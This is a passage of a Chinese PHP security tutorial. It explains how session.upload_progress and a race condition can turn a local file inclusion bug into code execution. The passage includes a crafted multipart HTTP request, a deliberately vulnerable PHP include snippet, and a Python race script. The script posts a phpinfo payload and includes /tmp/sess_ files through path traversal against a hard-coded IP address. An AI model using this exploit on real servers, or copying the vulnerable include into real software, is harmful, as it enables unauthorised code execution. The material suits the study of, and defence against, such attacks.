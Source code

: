 `session.auto_start` 顾名思义，如果开启这个选项，则 PHP 在接收请求的时候会自动初始化 Session，不再需要执行 session_start()。但默认情况下，也是通常情况下，这个选项都是关闭的。

#### upload_progress

`session.upload_progress` 最初是PHP为上传进度条设计的一个功能，在上传文件较大的情况下，PHP将进行流式上传，并将进度信息放在Session中（包含用户可控的值），即使此时用户没有初始化 Session，PHP 也会自动初始化 Session。而且，默认情况下 `session.upload_progress.enabled` 是为 On 的，也就是说这个特性默认开启，非常nice。那么，如何利用这个特性呢？只需发送如下数据包：

```http
POST /test.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: multipart/form-data; boundary=--------2015270941
Cookie: PHPSESSID=aaaaaaa
Content-Length: 234

----------2015270941
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

bbbbbbb
----------2015270941
Content-Disposition: form-data; name="file"; filename="test.txt"

...
----------2015270941--
```

可见，我在上传文件的同时，POST了一个名为 PHP_SESSION_UPLOAD_PROGRESS 的字段，其值为 bbbbbbb。（PHP_SESSION_UPLOAD_PROGRESS 是在 php.ini 里定义的session.upload_progress.name）只要上传包里带上这个键，PHP 就会自动启用 Session，又因为我在 Cookie 中设置了 PHPSESSID=aaaaaaa，所以Session文件将会自动创建。

但它的大小为什么是0呢？因为上传结束后，这个 Session 将会被自动清除（由session.upload_progress.cleanup定义），我们只需要条件竞争，赶在文件被清除前利用即可。所以，在文件包含漏洞找不到可供包含的文件时，可以利用这个技巧。

比如，目标服务器上有这样一段代码：

```php
<?php
  if (isset($_GET['file'])) {
      include './' . $_GET['file'];
  }
```

我们用一个简单的 Python 脚本，即可实现代码执行漏洞的利用：

```python
import io
import requests
import threading

sessid = '3nd'

def t1(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        response = session.post(
            url='http://47.98.224.70/index.php',
            data={'PHP_SESSION_UPLOAD_PROGRESS': '<?=phpinfo()?>'},
            files={'file': ('a.txt', f)},
            cookies={'PHPSESSID': sessid}
        )

def t2(session):
    while True:
        response = session.get(f'http://47.98.224.70/index.php?file=../../../../../../../../tmp/sess_{sessid}')
```
